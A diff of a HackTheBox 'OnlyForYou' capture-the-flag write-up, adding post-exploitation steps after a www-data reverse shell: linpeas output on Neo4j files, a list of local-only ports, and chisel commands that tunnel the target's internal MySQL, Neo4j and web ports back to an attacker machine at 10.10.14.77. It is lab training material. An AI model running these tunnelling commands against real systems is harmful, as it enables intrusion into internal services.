

Before and after one commit to e-war/Writeups, a Markdown page: HackTheBox/OnlyForYou/README.MD, the part around one of its changes. Shown at 85% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
digging in

````diff
--- a/HackTheBox/OnlyForYou/README.MD
+++ b/HackTheBox/OnlyForYou/README.MD
@@ -237,5 +237,61 @@ Connection received on 10.10.11.210 58992
 /bin/sh: 0: can't access tty; job control turned off
 $ whoami
 www-data
+```
+### LinPeas
+Inside the box, linpeas is ran, as seen before, neo4j is running but the user www-data does not have permissions to access it directly via cli.
+```
+╔══════════╣ Analyzing Neo4j Files (limit 70)
+-rw-r--r-- 1 root root 733 Nov 21 07:59 v
 
+-rwxr-xr-x 1 root root 2969 Dec  4 22:22 /etc/init.d/neo4j
+
+drwxr-x--- 2 neo4j adm 4096 Mar 30 11:51 /etc/neo4j
+find: ‘/etc/neo4j’: Permission denied
+
+-rwxr-xr-x 1 root root 259 Mar 23 15:01 /usr/bin/neo4j
+
+drwxr-sr-x 12 root staff 4096 Mar 30 11:51 /usr/local/lib/python3.8/dist-packages/neo4j
+
+drwxr-xr-x 2 root root 4096 Mar 30 11:51 /usr/share/doc/neo4j
+
+-rw-r--r-- 1 root root 312 Mar 23 15:01 /usr/share/lintian/overrides/neo4j
+
+drwxr-x--- 7 neo4j adm 4096 Mar 30 11:51 /usr/share/neo4j
+find: ‘/usr/share/neo4j’: Permission denied
+
+drwxr-x--- 10 neo4j adm 4096 Mar 30 11:51 /var/lib/neo4j
+find: ‘/var/lib/neo4j’: Permission denied
+
+drwxr-xr-x 2 neo4j adm 4096 Mar 30 12:08 /var/log/neo4j
 ```
+
+More hosted services are avaliable only locally on this machine.
+```
+Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
+tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
+tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1020/nginx: worker
+tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
+tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
+tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
+tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      -
+tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
+tcp6       0      0 127.0.0.1:7474          :::*                    LISTEN      -
+tcp6       0      0 :::22                   :::*                    LISTEN      -
+tcp6       0      0 127.0.0.1:7687          :::*                    LISTEN      -
+udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
+udp        0      0 0.0.0.0:68              0.0.0.0:*
+```
+Specifically, 3000, 8001, 3306 (sql), 7474 and 7687 (neo4j)
+
+### Chisel
+
+To be able to access these services i initiate a reverse tunnel from the target to our attacking machine using `chisel` which is built for exactly this.
+
+To tunnel this, i start a chisel server for reverse tunneling with `chisel server -p 9001 --reverse`
+
+The chisel binary is then uploaded to the targets `/tmp/` dir and ran in client mode tunneling the local ports to our attacking machine `chisel client 10.10.14.77:9001 R:3306:localhost:3306 R:3000:localhost:3000 R:8001:localhost:8001 R:7474:localhost:7474`
+
+## Info gathering round 2
+
+### Port 3000
````
Also changed, not shown: other parts of HackTheBox/OnlyForYou/README.MD (+1 -1 lines).
